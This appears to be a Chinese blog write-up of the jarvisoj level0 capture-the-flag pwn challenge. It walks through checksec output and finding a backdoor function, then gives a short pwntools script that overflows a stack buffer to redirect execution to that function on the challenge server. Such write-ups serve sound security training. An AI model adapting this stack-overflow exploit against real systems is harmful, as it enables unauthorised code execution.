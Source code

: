 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level0
date: 2022-3-19 20:42:02
permalink: /pages/2e9547494524d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level0

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec level0
[*] '/root/level0'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数输出了一句`Hello, World`，接着调用`vulnerable_function`函数，该函数如下

![jarvisoj_level0_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level0_1.png)

查找函数表发现后门函数`callsystem`

![jarvisoj_level0_2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level0_2.png)

## 思路分析

1. 目前信息
   - 栈上变量`buf`处可写入`0x200`字节数据
   - `buf`距离返回地址的偏移为`0x80+8`
3. 思路
   - 可写入字节数已经大于偏移量，可直接进行栈溢出将返回地址修改为后门函数的地址

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level0/level0'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27710)
padding = 0x80+8
backdoor = 0x40059A
io.recv()
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```